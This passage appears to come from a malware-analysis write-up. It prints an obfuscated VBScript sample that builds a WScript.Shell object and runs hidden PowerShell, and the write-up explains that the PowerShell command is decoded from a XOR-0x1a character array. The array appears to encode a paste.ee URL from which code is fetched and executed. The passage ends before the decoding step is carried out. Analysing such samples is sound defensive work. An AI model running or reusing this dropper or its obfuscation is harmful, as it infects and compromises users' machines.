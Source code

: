 ![Something Fishy](/assets/images/zoom/something_fish.png)
*Figure 3: Suspicious Activity Detected*


## Injection points

```javascript
'strArgs = "uxhiakccit"

'For I = 0 to WScript.Arguments.Count - 1
   'strArgs = strArgs & " " & WScript.Arguments(I)
'Next

'strArgs = strArgs & " -legacy_Vista"
With CreateObject(Replace("WscREDROript.ShREDROell" , "REDRO" , ""))
    .Run "powershell ""$ReDrO = InvOkE-eXpreSSion ( ( [char[]] (62 , 72,39,61 ,83 , 127,66,50,84 , 127 , 61 , 33 , 62, 72, 95, 58, 39, 58 , 62 ,72 ,49 , 61,77 , 55, 85, 88,80, 61, 33 , 62, 72 ,95 ,94, 58, 39,58 ,62, 72, 95,49, 61 , 127 ,89,78 , 58 ,84,127,78,52 , 77 , 61, 33, 62,74 ,91 , 89 , 39 ,61, 127 , 88 , 89 ,86, 61, 33,62 ,98,98, 58 ,39 ,58, 62, 74, 91 , 89 , 49, 61, 83, 127,84, 61,33, 62,72,85,58, 39 ,58 , 62 ,98 , 98 ,49,61,78,51 , 52, 94 ,85 ,77 ,84, 86 , 85,61,33, 62, 96 , 96, 39 , 61 ,85, 90,42 , 50 ,60 ,50 ,61 ,61 , 114,110 , 110 , 106, 105,32, 53, 53 , 106,123 ,105, 110 , 127,52,127,127, 53, 104, 53,40, 92,94,96,126, 53, 42, 61, 61,51 , 61 , 52,72, 127 ,74,86 , 91, 89 , 127 ,50,61,85 ,90,42, 50, 60, 61 ,54 , 61, 91 ,94, 73,78 , 72, 83 ,84 ,93,61,51, 33 ,115 ,127,98 , 50,62,72 ,95, 94 , 49 , 62,72 , 85 , 49, 62 ,96 , 96 , 51 ) | %{[char] ( $_-BXOR '0x1a' ) } )-JOIN'') ; powershell $ReDrO"" " , 0 , True    
End With

```

## Reverse this VBScript snippet


To reverse the process, a Python script is required to extract the array of numbers in the `[char[]]` block. Each number will be **XORed** with `0x1a` to retrieve the original ASCII value. The resulting ASCII values will then be converted back into characters. Finally, these characters will be joined together to form the final PowerShell command.

Many researchers can decide to use different methods to reverse the `[char[]]` value to understand what the code is meant to do. However, we will use Python for this task. In this case, we do not know what we will find from the `[char[]]` value, but let's see.
